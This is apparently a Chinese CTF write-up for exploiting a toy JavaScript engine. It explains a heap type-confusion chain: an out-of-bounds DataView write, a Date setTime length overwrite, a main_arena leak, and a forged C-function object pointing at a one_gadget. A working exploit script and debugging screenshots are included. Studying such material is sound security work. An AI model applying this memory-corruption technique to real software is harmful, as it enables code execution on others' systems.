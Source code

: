 ### getshell

然后利用思路基本就完整了，上一步将`obj->u.dataview.length` 修改以后，基本可以实现内存在一个较大范围内的任意读写，

然后在后面再次申请一个obj结构体(其实这个是啥都ok)， 然后将其修改为`JS_CCFUNCTION`类型对象，设置好`obj->u.c.function`，然后进行调用，可以在c层实现代码执行。

可能还要泄漏数据，通过堆 main_arean进行泄漏。

## exp

首先是申请内存，重复覆盖一个变量，这样达到`a.data | b | b.data`的效果，

然后可以使用`a`的越界修改`b->type`为`JS_DATE`， 并通过`setTime`函数修改`b->number`位置，这里低位同时是`b->u.dataview.length`， 将`b`修改回`JS_DATAVIEW`， 这时候`b`可读写的内存巨大，可以直接往后获取main_arean, 然后往后修改下一个object， 改成一个`JS_CCFUNCTION`类型， 设置好对应function,  然后main_arean计算偏移到libc_base， 再到onegadget, 

```js
a = DataView(0x68);
a = DataView(0x68);
b = DataView(0x68);
c = DataView(0x68);
// heap : c-c.data-d

a.setUint8(0x68 + 0x8, 0xa);
// b is a Date type
Date.prototype.setTime.bind(b)(1e12);
// b.u.dataview.length = (int)(double)(time);
a.setUint8(0x68 + 0x8, 0x10);
// b is a DataView

main_arean_low = b.getUint32(0x4f0);
main_arean_high = b.getUint32(0x4f4 + 0x51);

main_arean_low = main_arean_low // - main_arean_relative_address + onegadget_relative_address

b.setUint8(0xc0, 4); // c->type = JS_CCFUNCTION
b.setUint32(0xe0, 0); // c->u.c.name = 0
b.setUint32(0xe8, main_arean_low); // c->u.c.function 
b.setUint32(0xe8 + 4, main_arean_high); // c_>u.c.function

c();
```

调试可以发现这个可以通

![image-20220303220924999](https://s2.loli.net/2022/03/03/1ctNlGI5qY9ZEju.png)

观察下one gadget 

![image-20220303221056510](https://s2.loli.net/2022/03/03/HuhcfYGQtxWykmd.png)

其中这个 0xe6c84 的onegadget可以成功 

![image-20220303221200515](https://s2.loli.net/2022/03/03/dcoZSBCLyNqwgXa.png)

然后可以getshell 

